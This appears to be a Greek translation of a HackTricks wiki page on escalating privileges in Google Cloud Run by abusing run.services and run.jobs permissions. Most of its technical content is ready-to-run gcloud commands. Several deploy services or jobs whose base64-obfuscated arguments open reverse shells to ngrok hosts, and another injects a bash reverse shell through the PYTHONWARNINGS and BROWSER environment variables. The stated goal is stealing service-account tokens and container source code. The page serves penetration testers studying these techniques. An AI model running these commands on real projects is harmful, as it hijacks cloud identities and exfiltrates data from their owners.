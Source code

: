 # GCP - Εκτέλεση Privesc

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο Hacking του AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο Hacking του GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε** στην 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα χάκερ υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο GitHub.

</details>
{% endhint %}

## Cloud Run

Για περισσότερες πληροφορίες σχετικά με το Cloud Run ελέγξτε:

{% content-ref url="../gcp-services/gcp-cloud-run-enum.md" %}
[gcp-cloud-run-enum.md](../gcp-services/gcp-cloud-run-enum.md)
{% endcontent-ref %}

### `run.services.create` , `iam.serviceAccounts.actAs`, **`run.routes.invoke`**

Ένας επιτιθέμενος με αυτές τις άδειες μπορεί να **δημιουργήσει ένα υπηρεσία run που εκτελεί αυθαίρετο κώδικα** (αυθαίρετο Docker container), να συνδέσει έναν λογαριασμό υπηρεσίας σε αυτόν και να κάνει τον κώδικα **να εξαγάγει το διακριτικό του λογαριασμού υπηρεσίας από τα μεταδεδομένα**.

Ένα σενάριο εκμετάλλευσης για αυτήν τη μέθοδο μπορεί να βρεθεί [εδώ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/run.services.create.py) και η εικόνα Docker μπορεί να βρεθεί [εδώ](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudRunDockerImage).

Σημειώστε ότι όταν χρησιμοποιείτε το `gcloud run deploy` αντί να δημιουργήσετε απλώς την υπηρεσία **χρειάζεται την άδεια `update`**. Ελέγξτε ένα [**παράδειγμα εδώ**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/o-run.services.create.sh).

### `run.services.update` , `iam.serviceAccounts.actAs`

Όπως το προηγούμενο αλλά ενημερώνοντας μια υπηρεσία:
```bash
gcloud run deploy hacked \
--image=ubuntu:latest \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTQ4NDEgMD4mMQ== | base64 -d | bash" \
--service-account="<proj-num>-compute@developer.gserviceaccount.com" \
--region=us-central1 \
--allow-unauthenticated

# If you don't have permissions to use "--allow-unauthenticated", dont use it
```
### `run.services.setIamPolicy`

Δώστε στον εαυτό σας προηγούμενες άδειες πάνω στο cloud Run.

### `run.jobs.create`, `run.jobs.run`, `iam.serviceaccounts.actAs`,(`run.jobs.get`)

Ξεκινήστε ένα job με ένα αντίστροφο κέλυφος για να κλέψετε το λογαριασμό υπηρεσίας που υποδεικνύεται στην εντολή. Μπορείτε να βρείτε ένα [**εκμετάλλευση εδώ**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/m-run.jobs.create.sh).
```bash
gcloud beta run jobs create jab-cloudrun-3326 \
--image=ubuntu:latest \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNC50Y3AuZXUubmdyb2suaW8vMTIxMzIgMD4mMQ== | base64 -d | bash" \
--service-account="<sa>@$PROJECT_ID.iam.gserviceaccount.com" \
--region=us-central1

```
### `run.jobs.update`,`run.jobs.run`,`iam.serviceaccounts.actAs`,(`run.jobs.get`)

Παρόμοια με το προηγούμενο, είναι δυνατόν να **ενημερώσετε ένα job και να ενημερώσετε το SA**, τη **εντολή** και να την **εκτελέσετε**:
```bash
gcloud beta run jobs update hacked \
--image=mubuntu:latest \
--command=bash \
--args="-c,echo c2ggLWkgPiYgL2Rldi90Y3AvNy50Y3AuZXUubmdyb2suaW8vMTQ4NDEgMD4mMQ== | base64 -d | bash" \
--service-account=<proj-num>-compute@developer.gserviceaccount.com \
--region=us-central1 \
--execute-now
```
### run.jobs.run, run.jobs.runWithOverrides, (run.jobs.get)

Κατάχρηση των μεταβλητών περιβάλλοντος μιας εκτέλεσης εργασίας για την εκτέλεση αυθαίρετου κώδικα και τη λήψη αντίστροφου κελύφους για την απορρόφηση του περιεχομένου του container (κώδικα πηγής) και πρόσβαση στο SA μέσα στα μεταδεδομένα:&#x20;

{% code overflow="wrap" %}
```bash
gcloud beta run jobs execute job-name --region <region> --update-env-vars="PYTHONWARNINGS=all:0:antigravity.x:0:0,BROWSER=/bin/bash -c 'bash -i >& /dev/tcp/6.tcp.eu.ngrok.io/14195 0>&1' #%s"
```
{% endcode %}

### `run.jobs.setIamPolicy`

Δώστε στον εαυτό σας τα προηγούμενα δικαιώματα πάνω στα Cloud Jobs.

## Αναφορές

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο Hacking του AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο Hacking του GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε** 💬 [**στην ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα χάκινγκ υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια στο GitHub.

</details>
{% endhint %}
